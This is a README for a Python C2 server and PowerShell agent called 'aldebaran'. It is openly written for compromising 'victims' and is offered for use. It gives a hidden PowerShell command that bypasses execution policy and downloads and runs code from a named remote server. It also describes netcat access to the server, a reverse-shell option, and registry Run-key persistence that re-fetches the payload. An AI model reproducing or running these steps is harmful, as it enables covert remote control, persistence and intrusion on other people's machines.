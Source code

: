 # aldebaran

Python3 C2 server and agent payload.

Uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
Install requirements with pip3


## Certificates
You will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d 220.ip-54-37-16.eu --register-unsafely-without-email ```
and copy certs in "darma/certificates/" and/or adjust config.py to point to them
letsencrypt stores certs in /etc/letsencrypt/live/$domain


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url

## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
Run agent on victim


## Attacker machine
Connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
If deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

Run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://220.ip-54-37-16.eu/ -Method GET  -UseBasicParsing; iex $command"
```
## Reverese shell
Change the ip and port in darma/resources/rev.txt to make the reverse shell option work

## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
